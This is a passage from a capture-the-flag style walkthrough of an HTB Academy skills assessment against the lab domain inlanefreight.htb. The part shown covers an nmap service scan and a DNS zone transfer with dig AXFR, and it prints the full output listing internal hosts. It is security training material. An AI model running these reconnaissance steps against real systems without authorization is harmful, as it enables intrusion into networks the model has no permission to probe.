 This document covers the **Skills Assessment (Medium)** from HTB Academy's "Attacking Common Services" module. This advanced exercise demonstrates a **complex attack chain** involving DNS enumeration, vHost discovery, anonymous FTP access, email exploitation, and SSH key-based authentication.

> **Target Domain**: `inlanefreight.htb`  
> **Objective**: "Assess the target server and find the flag.txt file"  
> **Skills Tested**: DNS zone transfers, vHost enumeration, FTP intelligence gathering, POP3 attacks, SSH key extraction and usage

---

## 🔍 Phase 1: Service Discovery & DNS Enumeration

### Initial Nmap Scan
```bash
# HTB Academy Skills Assessment Medium - Initial reconnaissance
nmap -A 10.129.183.208

Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-27 16:47 GMT
Nmap scan report for 10.129.183.208
Host is up (0.013s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
<SNIP>
53/tcp   open  domain   ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
<SNIP>
```

**Key Discovery**: DNS server running on port 53 (BIND 9.16.1)

### DNS Zone Transfer Attack
```bash
# HTB Academy DNS zone transfer exploitation
dig AXFR inlanefreight.htb @10.129.183.208

; <<>> DiG 9.16.27-Debian <<>> AXFR inlanefreight.htb @10.129.183.208
;; global options: +cmd
inlanefreight.htb.	604800	IN	SOA	inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800
inlanefreight.htb.	604800	IN	NS	ns.inlanefreight.htb.
app.inlanefreight.htb.	604800	IN	A	10.129.200.5
dc1.inlanefreight.htb.	604800	IN	A	10.129.100.10
dc2.inlanefreight.htb.	604800	IN	A	10.129.200.10
int-ftp.inlanefreight.htb. 604800 IN	A	127.0.0.1
int-nfs.inlanefreight.htb. 604800 IN	A	10.129.200.70
ns.inlanefreight.htb.	604800	IN	A	127.0.0.1
un.inlanefreight.htb.	604800	IN	A	10.129.200.142
ws1.inlanefreight.htb.	604800	IN	A	10.129.200.101
ws2.inlanefreight.htb.	604800	IN	A	10.129.200.102
wsus.inlanefreight.htb.	604800	IN	A	10.129.200.80
inlanefreight.htb.	604800	IN	SOA	inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800
;; Query time: 13 msec
;; SERVER: 10.129.183.208#53(10.129.183.208)
;; WHEN: Sun Nov 27 16:59:44 GMT 2022
;; XFR size: 13 records (messages 1, bytes 372)
```
